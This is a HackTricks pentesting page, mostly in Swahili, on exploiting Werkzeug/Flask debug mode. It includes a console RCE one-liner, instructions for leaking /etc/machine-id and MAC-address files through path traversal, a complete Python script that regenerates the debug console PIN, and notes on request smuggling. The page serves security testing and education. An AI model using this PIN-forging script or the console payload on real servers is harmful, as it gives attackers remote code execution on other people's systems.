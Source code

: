 # Werkzeug / Flask Debug

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu**

**Pata na ripoti udhaifu muhimu, unaoweza kutumiwa kwa faida halisi ya biashara.** Tumia zana zetu zaidi ya 20 za kawaida kupanga uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya kiotomatiki kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kushawishi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Ikiwa debug imewashwa unaweza kujaribu kufikia `/console` na kupata RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Kuna pia exploits kadhaa mtandaoni kama [hii](https://github.com/its-arun/Werkzeug-Debug-RCE) au moja katika metasploit.

## Pin Protected - Path Traversal

Katika baadhi ya matukio, **`/console`** endpoint itakuwa imehifadhiwa na pin. Ikiwa una **file traversal vulnerability**, unaweza kuvuja taarifa zote muhimu za kuunda pin hiyo.

### Werkzeug Console PIN Exploit

Lazimisha ukurasa wa kosa la debug katika programu ili kuona hii:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are needed:

#### **`probably_public_bits`**

* **`username`**: Inahusu mtumiaji aliyeanzisha kikao cha Flask.
* **`modname`**: Kawaida inaitwa `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Kawaida inasababisha **Flask**.
* **`getattr(mod, '__file__', None)`**: Inawakilisha njia kamili ya `app.py` ndani ya saraka ya Flask (mfano, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Ikiwa `app.py` haihusiki, **jaribu `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Inapata anwani ya MAC ya mashine ya sasa, huku `str(uuid.getnode())` ikitafsiriwa kuwa katika muundo wa desimali.
* Ili **kubaini anwani ya MAC ya seva**, mtu lazima atambue kiunganishi cha mtandao kinachotumika na programu (mfano, `ens3`). Katika hali za kutokuwa na uhakika, **leak `/proc/net/arp`** ili kupata kitambulisho cha kifaa, kisha **toa anwani ya MAC** kutoka **`/sys/class/net/<device id>/address`**.
*   Mabadiliko ya anwani ya MAC ya hexadecimal kuwa desimali yanaweza kufanywa kama inavyoonyeshwa hapa chini:

```python
# Mfano wa anwani ya MAC: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Inachanganya data kutoka `/etc/machine-id` au `/proc/sys/kernel/random/boot_id` na mstari wa kwanza wa `/proc/self/cgroup` baada ya slash ya mwisho (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Baada ya kukusanya data zote muhimu, skripti ya exploit inaweza kutekelezwa ili kuunda PIN ya konsoli ya Werkzeug:

Baada ya kukusanya data zote muhimu, skripti ya exploit inaweza kutekelezwa ili kuunda PIN ya konsoli ya Werkzeug. Skripti inatumia `probably_public_bits` na `private_bits` zilizokusanywa ili kuunda hash, ambayo kisha inapitia mchakato zaidi ili kutoa PIN ya mwisho. Hapa chini kuna msimbo wa Python wa kutekeleza mchakato huu:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Hii script inazalisha PIN kwa kuhashi bits zilizounganishwa, kuongeza chumvi maalum (`cookiesalt` na `pinsalt`), na kuunda muundo wa matokeo. Ni muhimu kutambua kwamba thamani halisi za `probably_public_bits` na `private_bits` zinahitaji kupatikana kwa usahihi kutoka kwa mfumo wa lengo ili kuhakikisha kwamba PIN iliyozalishwa inalingana na ile inayotarajiwa na konsole ya Werkzeug.

{% hint style="success" %}
Ikiwa uko kwenye **toleo la zamani** la Werkzeug, jaribu kubadilisha **algorithms ya kuhashi kuwa md5** badala ya sha1.
{% endhint %}

## Makarakteri ya Unicode ya Werkzeug

Kama ilivyobainishwa katika [**tatizo hili**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug haifungi ombi lenye wahusika wa Unicode katika vichwa. Na kama ilivyoelezwa katika [**andika hii**](https://mizu.re/post/twisty-python), hii inaweza kusababisha udhaifu wa CL.0 Request Smuggling.

Hii ni kwa sababu, Katika Werkzeug inawezekana kutuma wahusika wengine wa **Unicode** na itafanya seva **ivunjike**. Hata hivyo, ikiwa muunganisho wa HTTP ulianzishwa na kichwa **`Connection: keep-alive`**, mwili wa ombi hautasomwa na muunganisho utaendelea kuwa wazi, hivyo **mwili** wa ombi utaonekana kama **ombio la HTTP linalofuata**.

## Utekelezaji wa Kiotomatiki

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Marejeleo

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu**

**Pata na ripoti udhaifu muhimu, unaoweza kutumiwa kwa faida halisi ya biashara.** Tumia zana zetu zaidi ya 20 za kawaida kuandaa uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya kiotomatiki kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kuvutia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
